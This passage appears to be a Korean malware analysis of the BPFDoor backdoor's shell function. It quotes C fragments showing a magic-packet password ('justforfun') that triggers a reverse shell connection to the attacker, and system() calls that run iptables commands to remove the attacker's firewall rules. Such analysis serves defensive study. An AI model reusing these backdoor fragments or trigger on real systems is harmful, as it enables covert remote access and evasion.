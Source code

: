### (주요 함수 분석) shell

- shell 함수는 다음의 2개의 위치에서 호출된다.

    1. `packet_loop` 함수 내에서 매직 패킷을 통해 전달된 비밀번호 값이 `justforfun`일 때, `try_link` 함수를 통해 생성된 TCP 소켓 인자로 하여 `rcmd`, `dcmd` 지정 없이 호출

        ```c
        scli = try_link(bip, mp->port);
        if (scli > 0)
            shell(scli, NULL, NULL);
        ```

        - 여기서 전달되는 `scli` 소켓은 다음의 상태를 가진다
            1. 연결을 시도하는 IP 주소
                - `magic_packet`에 지정된 IP 주소(`mp→ip`)

                or

                - 공격자의 IP 주소(`ip→ip_src.s_addr`)
            2. 연결을 시도하는 port
                - `mp->port`
            3. 최종 연결 방향
                BPFDoor가 설치된 시스템 (클라이언트) → 공격자(서버)


    2. `getshell` 함수 내부

<br>

1. **함수 시그니처**

    ```c
    int shell(int sock, char *rcmd, char *dcmd)
    ```

    - `sock`: 공격자와 통신하기 위해 이미 연결된 TCP 소켓의 파일 디스크립터
    - `rcmd`, `dcmd`: `getshell` 함수에서  전달되는 인자를 처리하기 위한 변수로, shell 함수 동작 후 가장 먼저 `system()` 함수를 통하여 실행한다.

2. **환경 변수 및 쉘 인자 설정**

3. **iptables 설정 부분(getshell 내에서 호출 시)**

    ```c
    if (rcmd != NULL)
        system(rcmd);
    if (dcmd != NULL)
        system(dcmd);
    ```

    - `getshell` 함수에서 호출 시 전달한 명령 문자열 인자 `rcmd`, `dcmd`를 `system` 함수로 실행하는 부분이다.
    - 수행되는 명령
        - `/sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d`
            - `%s` : 공격자 IP 주소
            - 첫 번째 `%d` : 공격자가 요청한 port 번호
            - 두 번째 `%d` : 임의 선택된 port
        - `/sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT`
            - `%s` : 공격자 IP 주소
